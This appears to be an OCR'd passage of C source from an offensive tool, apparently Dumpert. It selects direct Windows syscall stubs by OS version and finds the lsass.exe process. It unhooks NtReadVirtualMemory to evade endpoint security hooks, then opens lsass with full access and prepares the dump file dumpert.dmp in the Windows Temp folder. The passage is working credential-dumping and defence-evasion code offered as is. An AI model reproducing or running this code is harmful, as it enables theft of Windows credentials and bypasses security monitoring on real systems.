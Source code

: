 ```
    }
    else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.1") == 0 && osInfo.dwBuildNumber == 7601) {
        ZwOpenProcess = &ZwOpenProcess7SP1;
        ZwClose = &ZwClose7SP1;
        NtCreateFile = &NtCreateFile7SP1;
        pWinVerInfo->SystemCall = 0x3C;
    }
    else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.2") == 0) {
        ZwOpenProcess = &ZwOpenProcess80;
        ZwClose = &ZwClose80;
        NtCreateFile = &NtCreateFile80;
        pWinVerInfo->SystemCall = 0x3D;
    }
    else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.3") == 0) {
        ZwOpenProcess = &ZwOpenProcess81;
        ZwClose = &ZwClose81;
        NtCreateFile = &NtCreateFile81;
        pWinVerInfo->SystemCall = 0x3E;
    }
    else {
        exit(1);
    }

    _RtlInitUnicodeString RtlInitUnicodeString = (_RtlInitUnicodeString)
        GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlInitUnicodeString");
    if (RtlInitUnicodeString == NULL) {
        exit(1);
    }

    RtlInitUnicodeString(&pWinVerInfo->ProcName, L"lsass.exe");

    if (!GetPID(pWinVerInfo)) {
        exit(1);
    }

    pWinVerInfo->lpApiCall = "NtReadVirtualMemory";

    if (!Unhook_NativeAPI(pWinVerInfo)) {
        exit(1);
    }

    HANDLE hProcess = NULL;
    OBJECT_ATTRIBUTES ObjectAttributes;
    InitializeObjectAttributes(&ObjectAttributes, NULL, 0, NULL, NULL);
    CLIENT_ID uPid = { 0 };

    uPid.UniqueProcess = pWinVerInfo->hTargetPID;
    uPid.UniqueThread = (HANDLE)0;

    NTSTATUS status = ZwOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &ObjectAttributes, &uPid);
    if (hProcess == NULL) {
        exit(1);
    }

    WCHAR chDmpFile[MAX_PATH] = L"\\??\\";
    WCHAR chWinPath[MAX_PATH];
    GetWindowsDirectory(chWinPath, MAX_PATH);
    wcscat_s(chDmpFile, sizeof(chDmpFile) / sizeof(wchar_t), chWinPath);
    wcscat_s(chDmpFile, sizeof(chDmpFile) / sizeof(wchar_t), L"\\Temp\\dumpert.dmp");

    UNICODE_STRING uFileName;
    RtlInitUnicodeString(&uFileName, chDmpFile);

```